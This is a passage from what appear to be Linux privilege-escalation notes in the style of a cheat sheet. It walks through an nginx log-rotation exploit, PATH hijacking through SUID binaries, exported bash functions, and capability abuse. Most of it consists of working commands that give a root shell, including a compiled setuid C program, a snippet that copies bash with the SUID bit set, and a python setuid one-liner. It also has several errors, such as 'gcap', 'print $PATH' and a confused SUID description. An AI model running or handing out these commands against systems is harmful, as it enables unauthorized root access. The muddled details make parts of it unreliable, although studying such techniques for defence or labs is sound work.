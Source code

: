 - Run nginx `./nginxed-root.sh /var/log/nginx/eror.log` and press enter.

- Then make a new connection by ssh again in a new terminal as root. Run command `invoke-rc.d nginx rotate >/dev/null 2>&1`. This will simulate restart of nginx.
- Then we will have root access in the previous terminal.

* * *

#### Escalation via Environment Variables

- `env`
- `find / -type f -perm 04000 -ls 2>/dev/null` to find the environment variables.
- Run a env file.
- And check what it is doing by `strings /pathname/file`
- For example 'service'
- `print $PATH` to see the PATH.
- If we add a malicious file and add that to file to path could execute the malicious file.
- `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
`
`gcc /tmp/service.c -o /tmp/service` now /tmp/service is the malicious file.
- Now we add malicous file to the path. For that `export PATH=/tmp:$PATH`
- Check PATH by `print $PATH`
- Now try executing the previous file.

If we are having direct path like '/usr/sbin/service' we can exploit this by

- Create a malicous function.
- `function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`
- Export this function by `export -f /usr/sbin/service` -f is shel function.
- This will escalate our privileages to root. 


# 7. Capabilities <a name="Capabilities"></a>

#### Capabilities overview

[Linux Privileage Escalation using capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)
[SUID vs Capabilities](https://mn3m.info/posts/suid-vs-capabilities/)
[Linux Capabilities Privilege Escalation via OpenSSL with SELinux Enabled and Enforced](https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)

Hunting capabilities - `gcap -r / 2>/dev/null`

* * *

#### Escalation via Capabilities

Example:
`getcap -r / 2>/dev/null` gives the output as follows:
/usr/bin/python2.6 = cap_setuid+ep

`/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'` - this will make us root.
